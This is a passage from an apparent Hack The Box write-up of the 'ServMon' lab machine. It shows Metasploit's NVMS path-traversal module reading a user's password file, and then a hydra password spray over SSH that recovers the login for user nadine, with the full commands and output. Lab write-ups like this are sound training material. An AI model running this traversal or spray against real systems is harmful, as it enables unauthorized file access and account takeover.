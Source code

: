 ```sh
[tyco㉿4YE: ~/htb/servmon]$ use auxiliary/scanner/http/tvt_nvms_traversal

> set rhost 10.10.10.184
> set filepath "Users/Nadine/Desktop/user.txt"
> run

[+] 10.10.10.184:80 - Downloaded 156 bytes                                                                            
[+] File saved in: /home/tyco/.msf4/loot/20211227150823_default_10.10.10.184_nvms.traversal_816123.txt                
[*] Scanned 1 of 1 hosts (100% complete)                                                                              
[*] Auxiliary module execution completed
```

```sh
[tyco㉿4YE: ~/htb/servmon]$ cat /.../...nvms.traversal_816123.txt

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

A password list! Let's use `hydra` to do a password spray.

```sh
[tyco㉿4YE: ~/htb/servmon]$ hydra -l nadine -P Passwords.txt ssh://10.10.10.184                                    

Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-27 15:13:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/

[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-27 15:13:33
```

The password was `L1k3B1gBut7s@W0rk`. Let's SSH into the box now.

# system enumeration
